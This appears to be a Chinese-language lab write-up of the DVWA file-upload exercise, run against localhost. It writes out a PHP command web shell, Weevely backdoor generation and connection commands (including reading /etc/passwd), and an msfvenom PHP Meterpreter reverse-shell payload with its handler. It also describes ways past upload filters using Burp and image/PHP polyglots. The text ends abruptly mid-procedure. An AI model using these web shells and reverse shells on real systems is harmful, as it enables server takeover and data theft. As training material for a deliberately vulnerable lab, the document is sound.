






# File Upload 
文件上傳漏洞
如果對上傳檔案的類型、內容沒有進行嚴格過濾，會使攻擊者通過上傳WEBSHELL取得伺服器權限
因此檔案上傳漏洞的危害非常嚴重

## Low 
未經任何過濾、檢查


直接手打一個php來上傳，呼叫cmd指令
```php
    <?php  system($_REQUEST["cmd"]); ?>
```
上傳成功後，前端回饋路徑名稱
../../hackable/uploads/test.php succesfully uploaded!
你只需要造訪這個路徑名稱，後面加上cmd指令即可取得伺服器資訊
```
    http://127.0.0.1/dvwa/hackable/uploads/test.php?cmd=ls
```



## 額外

### 滲透測試工具－Weevely 

Weevely是一個開源的Python工具，用於進行網站的測試和測試安全性。它主要用於進行網站漏洞測試和測試，可以用於網站測試的各個階段，包括鑒定、發現、測試和應對潛在的安全問題。

kali 本身有內建

* generate 生成後門
```
    weevely generate test123 weevely.php 
```


你就可以把建立好的php上傳到上面中，並訪問
進行後門連接

```
   weevely http://127.0.0.1/dvwa/hackable/uploads/weevely.php test123
```



就可以使用後門程式如
:fild_download 下載遠端的程式或是圖片
查看系統訊息
```
    uname -a # 查看系統訊息
    net_ifconfig # 查看IP
    audit_etcpasswd -h # 查看password 
    audit_etcpasswd -real # 查看password  ，並獲得真實用戶訊息
    bruteforce_sql -h  #暴力破解
    sql_console -u #　連接數據庫
```

### 滲透測試工具 Msfvenom 
生成自帶backdoor 的軟體

列出php 相關所有指令
```
    msfvenom -l  payloads | grep php 
```
使用php/meterpreter/reverse_tcp 生成php程式，並上傳

```
    msfvenom -p php/meterpreter/reverse_tcp tcp lhost=127.0.0.1 lport=4444 -f raw > exploit.php
```

啟動msfconsole，use exploit/multi/handler 


```
    msfconsole 
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set lhost 127.0.0.1
    run

```
重新訪問到該url 
../../hackable/uploads/exploit.php

就會發現介面發生了變化


```
    sysinfo # 取得系統資訊
```

## Medium 

後端追加檢查了檔案類型
透過副檔名操作，Burpsuite 攔截來使php檔案可以上傳
將原本的test.php 附檔名改成png 
上傳後再burpsuite 改成php，即可繞過判定

## HIGH
除了檢查type外，後端使用了getimagesize(string filename)，會讀取圖片header、圖片長寬的資訊
格式不對就報錯

因此我們預先準備一張jpg圖片及php檔案，將圖片合併起來生成webshell.jpg 
上傳成功後就可以使用菜刀、蟻劍來操作webshell 

方法二：更改file 前面格式

先到
https://en.wikipedia.org/wiki/List_of_file_signatures
看圖片格式



使用hexeditor 更改test.php格式(先在前面按8個空白鍵)
cp  改成jpg格式，上傳用burpsuite 攔截
filename變成如下：
開啟msfconfig 


